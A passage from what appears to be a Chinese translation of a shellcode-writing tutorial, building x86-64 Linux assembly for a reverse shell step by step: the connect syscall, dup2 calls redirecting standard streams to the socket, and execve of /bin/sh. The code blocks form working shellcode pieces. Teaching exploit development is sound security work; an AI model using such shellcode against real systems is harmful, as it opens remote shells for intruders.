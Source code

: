 前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00218.gif)

`connect` 函数也接受三个参数。第一个参数是 `sockfd`（来自 `socket` 函数的输出），存储在 RDI 寄存器中。第二个是我们结构的引用，存储在 RSI 寄存器中。第三个参数是我们结构的大小。

让我们获取 `connect` 系统调用号：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep connect
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00219.gif)

从获得的输出中，我们可以看到系统调用号是 `42`。现在，让我们构建 `connect` 系统调用：

```
xor rdx, rdx
add rdx, 16
xor rax, rax
add rax, 42
syscall
```

现在，`dup2` 函数与之前的相同，只是第一个参数将是 `sockfd`，它已经存储在 RDI 寄存器中；让我们也构建它：

```
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

现在是最后一部分，即 `/bin/sh` 的 `execve` 系统调用：

```
xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```
